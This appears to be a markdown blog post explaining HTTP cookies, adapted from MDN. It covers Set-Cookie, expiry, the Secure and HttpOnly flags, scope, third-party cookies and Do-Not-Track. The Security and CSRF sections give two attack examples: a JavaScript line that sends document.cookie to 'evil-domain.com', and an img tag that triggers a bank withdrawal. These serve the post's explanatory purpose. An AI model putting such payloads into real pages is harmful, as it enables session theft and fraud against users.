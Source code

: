 ```yaml
---
layout : post
title : Http Cookie
comments: true
categories : Other
---
```


  An HTTP cookie is a small piece of data that a server sends to the user's web browser. 
  
  The browser stores it(if it is enabled) and send it back to the same server in subsequent each request
  inside a Cookie HTTP header.  

### Purpose

  1. Session management
  2. Personalization
  3. Tracking
  
### Storage

  It is recommended nowadays to prefer modern storage APIs to improve performance. 
  
  Modern APIs for client storage are the [Web storage API](https://developer.mozilla.org/en-US/docs/Web/API/Web_Storage_API) (`localStorage` and `sessionStorage`) 
  and [IndexedDB](https://developer.mozilla.org/en-US/docs/Web/API/IndexedDB_API).
  
### Creating cookies

  When receiving an HTTP request, a server can send a `Set-Cookie` header with the response. A simple cookie is set like this:
  
  > Set-Cookie: <cookie-name>=<cookie-value>
  
  This header from the server tells the client to store a cookie.
  
  After that, the browser will send back all previously stored cookies to the server using the `Cookie` header.
  
### Session cookies

  Session cookie will be deleted when the browser shuts down, because it didn't specify an `Expires` or `Max-Age` directive.
  
### Permanent cookies

  Permanent cookies expire at a specific date (`Expires`) or after a specific length of time (`Max-Age`).
  
  > Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
  
  Note: When an expiry date is set, the time and date set is relative to the client the cookie is being set on, not the server.
  
### Secure and HttpOnly cookies

  A `secure` cookie is only sent to the server over the `HTTPS` protocol. 
  
  **Note: This flag doesn't make sure the cookies will be sent secure.** 
  
  To prevent cross-site scripting (XSS) attacks, `HttpOnly` cookies are inaccessible to JavaScript's `Document.cookie` API,
  that is if the `HttpOnly` flag is not set, existing cookies can be accessed from JavaScript like `console.log(document.cookie);`.
  
  > Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
  
### Scope of cookies

  The `Domain` and `Path` directives define the scope of the cookie: what URLs the cookies should be sent to.

  `Domain` specifies allowed hosts to receive the cookie. 
  If unspecified, it defaults to the host of the current document location, **excluding subdomains**. 
  If it is specified, then subdomains are always included.

  For example, if `Domain=mozilla.org` is set, then cookies are included on subdomains like `developer.mozilla.org`.

  `Path` indicates a URL path that must exist in the requested URL in order to send the Cookie header. 
  
  For example, if `Path=/docs` is set, these paths will match:

  - `/docs`
  - `/docs/Web/`
  - `/docs/Web/HTTP`
  
### Security

  Common ways to steal cookies include Social Engineering or exploiting an XSS vulnerability in the application.
  
  > (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
  
### Cross-site request forgery (CSRF)

  Someone includes an image that isn’t really an image (for example in an unfiltered chat or forum), 
  instead it really is a request to your bank’s server to withdraw money:
  
  > <img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
  
### Third-party cookies

  Cookies have a domain associated to them. If this domain is the same as the domain of the page you are on, 
  the cookies is said to be a **first-party cookie**. If the domain is different, it is said to be a **third-party cookie**. 
  
  While `first-party` cookies are sent only to the server setting them, 
  a web page may contain images or other components stored on servers in other domains (like ad banners).
  
### Do-Not-Track

  The `DNT` header can be used to signal that a web application should disable either its tracking or 
  cross-site user tracking of an individual user. 
  
### References

[mozilla](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
